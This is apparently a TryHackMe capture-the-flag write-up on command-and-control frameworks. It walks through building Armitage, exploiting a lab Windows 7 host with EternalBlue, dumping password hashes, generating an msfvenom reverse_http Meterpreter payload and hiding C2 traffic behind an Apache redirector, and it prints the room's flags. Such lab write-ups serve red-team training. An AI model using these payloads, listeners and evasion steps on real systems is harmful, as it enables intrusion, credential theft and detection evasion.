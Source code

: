 # THM-Writeup-C2

Comprehensive walkthrough covering C2 infrastructure setup, payload generation, listener configuration, exploitation, and OPSEC techniques using Metasploit and Armitage.

By **Ramyar Daneshgar**

---

## Task 1: Introduction

I did this lab to deepen my understanding of Command and Control (C2) frameworks. These frameworks are used to manage compromised hosts, maintain persistent access, and coordinate post-exploitation activities during red team operations and adversary emulation engagements. The room introduces concepts ranging from basic architecture to advanced OPSEC practices.

---

## Task 2: Command and Control Framework Structure

I studied the architectural components critical to any C2 framework:

1. **C2 Server**: Acts as the central control point, managing inbound connections and issuing commands.
2. **Agents (Payloads)**: Executable stubs deployed on targets that initiate outbound connections to the C2 server.
3. **Listeners**: Network services on the C2 server awaiting beacon traffic from agents.
4. **Beacons**: Periodic HTTP/DNS/SMB/TCP callbacks from agents for command retrieval.
5. **Obfuscation Techniques**: Introduced to avoid detection by traffic analysis tools and anomaly-based systems.

### Example: Sleep Timers and Jitter

To defeat signature-based network detection mechanisms, I implemented jitter around beacon intervals:

```python
import random
sleep = 60
jitter = random.randint(-30, 30)
sleep = sleep + jitter
```

This randomized interval prevents the detection of predictable callback patterns.

---

## Task 3: Common C2 Frameworks

I analyzed both free and commercial C2 frameworks:

- **Metasploit Framework**: An exploitation and post-exploitation platform with integrated payload generation (via `msfvenom`) and extensive module support.
- **Armitage**: Java-based GUI frontend for Metasploit, offering multi-user collaboration and visual session management.
- **PowerShell Empire / Starkiller**: Modular, post-exploitation C2 leveraging PowerShell for agent deployment.
- **Covenant**: A .NET-based, cross-platform C2 with HTTP/SMB listeners and C#-compiled agents.
- **Sliver**: A Go-based, multi-user, CLI-driven C2 supporting multiple transport protocols including mTLS, DNS, and WireGuard.

Commercial frameworks like **Cobalt Strike** and **Brute Ratel** offer advanced malleability, in-memory execution, evasive payloads, and robust pivoting capabilities, which are critical for high-fidelity red team operations.

---

## Task 4: Setting Up a C2 Framework

I chose Armitage due to its tight integration with Metasploit and support for shared session operations.

### Step 1: Cloning and Building Armitage

```bash
git clone https://gitlab.com/kalilinux/packages/armitage.git
cd armitage
bash package.sh
```

### Step 2: Initializing the Metasploit Database

```bash
systemctl start postgresql
msfdb --use-defaults init
```

### Step 3: Starting the Teamserver

```bash
cd release/unix
./teamserver <public_IP> <shared_password>
```

This enables remote team members to connect to the same C2 instance.

### Step 4: Launching the Armitage GUI

```bash
./armitage
```

---

## Task 5: C2 Operation Basics

I followed standard OPSEC practices to avoid exposing the Armitage management interface to public networks. I forwarded the necessary port using SSH tunneling:

```bash
ssh -L 55553:127.0.0.1:55553 user@<remote_c2_server>
```

Within Armitage, I configured a Meterpreter reverse listener on TCP/31337.

---

## Task 6: Command, Control, and Conquer

### Reconnaissance

From Armitage’s GUI:

```
Hosts → Nmap Scan → Quick Scan
```

I discovered a vulnerable Windows 7 system with SMBv1 exposed.

### Exploitation

I deployed the MS17-010 (EternalBlue) exploit:

```
Attacks → Exploits → Windows → SMB → ms17_010_eternalblue
```

The exploit returned a Meterpreter session.

### Post-Exploitation

```bash
getuid
hashdump
```

Recovered hashes:

- Administrator: `c156d5d108721c5626a6a054d6e0943c`
- Ted: `2e2618f266da8867e5664425c1309a5c`

### Flag Collection

```bash
cat C:/Users/Administrator/Desktop/root.txt
cat C:/Users/Ted/Desktop/user.txt
```

- Root Flag: `THM{bd6ea6c871dced619876321081132744}`
- User Flag: `THM{217fa45e35f8353ffd04cfc0be28e760}`

---

## Task 7: Advanced C2 Setups

To obfuscate direct communication with my Metasploit handler, I deployed a redirector using Apache2.

### Apache2 Redirector Setup

```bash
apt install apache2
a2enmod rewrite proxy proxy_http headers
```

Edited `/etc/apache2/sites-available/000-default.conf`:

```apache
<VirtualHost *:80>
  RewriteEngine On
  RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"
  ProxyPass / http://127.0.0.1:8080/
</VirtualHost>
```

### Payload Generation with Custom Header

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=127.0.0.1 LPORT=8080 \
HttpUserAgent=NotMeterpreter -f exe -o shell.exe
```

### Metasploit Listener Configuration

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST 127.0.0.1
set LPORT 8080
set HttpUserAgent NotMeterpreter
set OverrideLHOST <redirector_IP>
set OverrideLPORT 80
set OverrideRequestHost true
run
```

This configuration ensured that all C2 traffic passed through the redirector and was filtered based on custom headers.

---

## Task 8: Lessons Learned

Through this lab, I developed a strong technical foundation in:

- C2 infrastructure design and deployment
- Payload engineering (staged vs. stageless)
- Evasion strategies including beacon obfuscation and redirectors
- Safe listener exposure through SSH tunneling
- Redirector deployment using Apache2 and mod_rewrite
- Real-world exploitation via EternalBlue
- Post-exploitation data collection and lateral movement foundations


This lab provided a full lifecycle walkthrough of deploying and operating a command and control infrastructure with an emphasis on OPSEC and post-exploitation. By operationalizing redirectors, custom headers, and Metasploit integrations, I now have working knowledge applicable to red teaming, adversary emulation, and purple team development.

Next steps: implement DNS-based C2, experiment with Sliver’s mTLS payloads, and extend redirectors using NGINX with JA3 fingerprint evasion.

